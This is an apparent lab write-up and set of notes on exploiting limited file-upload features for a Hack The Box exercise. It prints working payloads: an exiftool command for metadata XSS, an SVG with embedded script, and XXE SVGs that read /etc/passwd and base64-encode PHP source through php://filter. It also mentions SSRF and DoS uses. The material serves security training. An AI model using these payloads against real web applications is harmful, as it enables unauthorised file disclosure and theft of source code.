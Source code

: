 # Limited File Uploads

- The above exercise contains an upload functionality that should be secure against arbitrary file uploads.
 Try to exploit it using one of the attacks shown in this section to read "/flag.txt"

  `Hint`: Use an attack that can read files, and don't forget to check the page source!
- Try to read the source code of 'upload.php' to identify the uploads directory, and use its name as the answer. (write it exactly as found in the source, without quotes)
  
  `Hint`: Use a different payload to read source code.
---
## Possible Attacks

If the web applications displays an image's metadata after its upload, we can perform the following attack:
- `XSS` via comment injection:
  ```bash
  exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
  ```
  `Note`: It is possible to perform this attack using one of the Metadata parameters that accept raw text, like the `Comment` or 
  `Artist` parameters. Furthermore, if we change the image's `MIME-Type` to `text/html`, some web applications may show it as an HTML 
  document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
---
## `.svg` Attacks
- Custom `.svg` image:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
      <circle cx="50" cy="50" r="40" fill="red" />
  </svg>
  ```
- `XSS` via HTB.svg:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
      <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
      <script type="text/javascript">alert(window.origin);</script>
  </svg>
  ```
## Common file disclosure
- `XXE` via `.svg` file:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
## Source code file Disclosure
- `XXE` via `.svg` file with `PHP Wrappers`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```

Another similar attack that is also achievable through these file types is an SSRF attack. We may utilize the XXE vulnerability to enumerate the internally available services or even call private APIs to perform private actions.

Many file upload vulnerabilities may lead to a Denial of Service (DOS) attack on the web server. For example, we can use the previous XXE payloads to achieve DoS attacks
---

## Exercise

We attempted to upload a simple `.png` image but we received the response with the message "Only SVG images are allowed":
![image](https://github.com/user-attachments/assets/36479000-2f72-4e4b-8893-99deeb070204)

Since only `.svg` extensions are allowed, we attempt to upload a basic `.svg` image:
![image](https://github.com/user-attachments/assets/c958b80b-f3c5-4f0c-ba94-362fc3033bca)
We discover that the page is displaying the image previously loaded by reading de source code from the backend:
![image](https://github.com/user-attachments/assets/120ad4f8-7ab8-42c7-93cc-d1904a5ecd0b)
![image](https://github.com/user-attachments/assets/eae9ef81-0d82-4812-89c1-34f48ad16fdf)



We performed a `XSS` attack via `.svg` upload:
![image](https://github.com/user-attachments/assets/1d6ebcf9-91d4-4f2f-b4e9-fed9a43451ab)
![image](https://github.com/user-attachments/assets/272a725a-ae20-4873-b278-32c3e253d3f1)
![image](https://github.com/user-attachments/assets/06358b9a-0a9e-48fa-b253-d6687a6899b7)

Then we performed a `XXE` attack in order to get the content of the `/flag.txt` file:
![image](https://github.com/user-attachments/assets/d9f1a541-f7fb-4ab3-97e7-dac94709eac5)
![image](https://github.com/user-attachments/assets/fa0b467f-639f-4f5d-97f1-fe024e57d6fa)


To read the source code of `upload.php` we perform a `XXE` attack via `PHP Wrapper`:
![image](https://github.com/user-attachments/assets/ff931621-7fcc-4075-9c62-a9153bc23c57)
![image](https://github.com/user-attachments/assets/7beb39b8-141b-46f0-8e7a-3404be459892)

Then we get de raw source code and solve the lab:
![image](https://github.com/user-attachments/assets/282bacad-57ed-49dd-aa1c-2c819661e353)






